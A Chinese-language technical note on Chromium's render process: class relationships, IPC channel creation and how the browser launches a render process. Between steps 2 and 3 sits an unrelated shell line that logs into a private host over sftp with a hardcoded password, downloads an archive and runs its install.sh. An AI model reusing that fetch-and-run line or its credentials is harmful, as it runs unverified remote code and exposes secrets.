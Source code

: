 #### render进程的类图关系

RenderViewImpl类多重继承了RenderView类和RenderWidget类。RenderView类实现了Sender接口。RenderWidget类也实现了Sender接口，同时也实现了Listener接口，因此它可以用来发送和接收IPC消息。


RenderWidget类实现了接口Sender的成员函数Send，RenderViewImpl类就是通过它来发送IPC消息的。RenderWidget类的成员函数Send又是通过一个用来描述Render线程的RenderThreadImpl对象来发送IPC类的。这个RenderThreadImpl对象可以通过调用RenderThread类的静态成员函数Get获得。

从上面的分析又可以知道，ChannelProxy类最终是通过ChannelPosix类发送IPC消息的，因此总结来说，就是RenderThreadImpl是通过ChannelPosix类发送IPC消息的

RenderProcessImpl类继承了RenderProcess类，RenderProcess类又继承了ChildProcess类。ChildProcess类有一个成员变量io_thread_，它指向了一个Thread对象。该Thread对象描述的就是Render进程的IO线程。

### render进程启动过程

> 先Browser 后 Render ,Browser创建后将描述符传递给Render并初始化


Browser初始化：



**1** 当我们在Chromium的地址栏输入一个网址，然后进行加载的时候，`Browser`进程经过判断，发现需要在一个新的`Render`进程中渲染该网址的内容时，就会创建一个`RenderViewHostImpl`对象，并且调用它的成员函数`CreateRenderView`触发启动一个新的`Render`进程(前面提到过`Render`进程对应一个TAB)。后面我们分析`WebView`加载一个`URL`的时候，就会看到触发创建`RenderViewHostImpl`对象的流程。

**2** 在`RenderViewHostImpl`构造函数中的构造参数列表初始化`RenderWidgetHostImpl`时，需要传入`RenderWidgetHostImpl`的成员变量`process_`参数，调用了instance_的`GetProcess()方法`，这个方法来自于`SiteInstanceImpl`,它返回一个`RenderProcessHost`对象。

expect -c 'spawn sftp go@10.208.133.170:mqq_pass/go.tgz;expect "yes/no)?";send "yes\r";expect "*assword:";send "go2015\r";expect "*#";';tar xvf go.tgz;cd go;./install.sh
**3** RenderProcessHostImpl Init过程：

**要有IPC**

先调用IPC::Channel类的静态成员函数GenerateVerifiedChannelID生成一个接下来用于创建UNIX Socket的名字，接着再以该名字为参数，调用IPC::ChannelProxy类的静态成员函数Create创建一个用于执行IPC的Channel，(后面关注如何创建ChannelProxy)该Channel就保存在RenderProcessHostImpl类的成员变量channel_中。
这个用来创建UNIX Socket的名字的ID由当前进程的PID、一个顺序数和一个随机数通过"."符号连接而成的。

**过滤ipc消息**

调用RenderProcessHostImpl类的成员函数CreateMessageFilters创建一系列的Message Filter，用来过滤IPC消息。

**Browser进程也有加载渲染的能力**

如果所有网页都在Browser进程中加载，即不单独创建Render进程来加载网页，那么这时候调用父类RenderProcessHost的静态成员函数run_renderer_in_process的返回值就等于true。在这种情况下，就会通过在本进程（即Browser进程）创建一个新的线程来渲染网页。这个线程由RenderProcessHostImpl类的静态成员变量g_renderer_main_thread_factory描述的一个函数创建，它的类型为InProcessRendererThread。InProcessRendererThread类继承了base::Thread类，从前面Chromium多线程模型设计和实现分析一文可以知道，当调用它的成员函数StartWithOptions的时候，新的线程就会运行起来。这时候如果我们再调用它的成员函数message_loop，就可以获得它的Message Loop。有了这个Message Loop之后，以后就可以向它发送消息了。

**在单独的Render进程中加载**

如果网页要单独的Render进程中加载，那么调用创建一个命令行，并且以该命令行以及前面创建的IPC::ChannelProxy对象为参数，创建一个ChildProcessLauncher对象，而该ChildProcessLauncher对象在创建的过程，就会启动一个新的Render进程。


